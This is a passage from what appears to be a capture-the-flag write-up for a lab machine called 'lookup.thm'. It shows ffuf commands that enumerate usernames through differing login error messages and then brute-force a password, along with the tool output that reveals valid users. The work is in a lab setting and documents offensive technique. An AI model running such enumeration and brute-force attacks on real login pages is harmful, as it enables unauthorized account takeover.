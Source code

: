 `Nmap` already informs us that port **80** redirects to `http://lookup.thm`, so we add it to our hosts file.

```
10.10.150.247 lookup.thm
```
{: file="/etc/hosts" }

Visiting `http://lookup.thm`, we are presented with a login form.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

## Shell as www-data

### Brute-forcing the Credentials

Testing the form with random credentials, we receive the `Wrong username or password.` error and are redirected back to the form.

![Web 80 Login One](web_80_login1.webp){: width="1200" height="600" }

Trying a couple of common usernames, we get an interesting result when using `admin` as the username. Instead of the previous error, we receive the `Wrong password.` message.

![Web 80 Login Two](web_80_login2.webp){: width="1200" height="600" }

It seems the application returns different error messages for valid and invalid usernames. We can use this to enumerate valid users with `ffuf`.

```console
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=FUZZ&password=test' -w /usr/share/seclists/Usernames/Names/names.txt -mc all -ic -fs 74 -t 100
...
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 90ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 132ms]
```
{: .wrap }

With this, we discover two valid users: `admin` and `jose`.

Brute-forcing the password for the `jose` user with `ffuf`, we manage to discover the password for the user.

```console
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=jose&password=FUZZ' -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -mc all -ic -fs 62 -t 100

pa[REDACTED]23             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 134ms]
```
{: .wrap }

Using the discovered credentials to log in through the form at `http://lookup.thm/`, we are redirected to `http://files.lookup.thm/`.
